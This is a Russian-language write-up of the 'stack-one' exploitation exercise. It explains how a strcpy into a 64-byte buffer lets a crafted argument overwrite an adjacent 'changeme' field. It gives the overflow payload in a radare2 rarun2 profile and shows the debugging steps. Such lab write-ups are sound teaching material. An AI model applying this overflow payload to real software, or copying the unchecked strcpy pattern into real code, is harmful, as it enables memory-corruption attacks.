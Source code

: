 Цель задания - изменить значение поля "volatile int changeme" структуры locals.

Структура имеет вид
```  
struct {
  char buffer[64];
  volatile int changeme;
} locals;
```

Уязвимое место в программе 
`strcpy(locals.buffer, argv[1]);`

Это значит, что необходимо ввести 64 байт мусора и от 1 до 4 байт не 0 значение. (т.к. поле имеет размер int (4 байта))

Для выполнения задания, необходимо заполнить поле произвольным значением отличным от 0 
`locals.changeme == 0x496c5962`

Пишем профиль для rr2
```
#!/usr/bin/rarun2
arg1=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x62\x59\x6c\x49
```

Запускаем радар2
r2 -R profileSO.rr2 -d stack-one

Состояние стека до
![alt text](../images/stack-one/1.png)

После
![alt text](../images/stack-one/2.png)

Код проверки
![alt text](../images/stack-one/3.png)

Содержимое региста eax\
![alt text](../images/stack-one/4.png)

Победа
![alt text](../images/stack-one/5.png)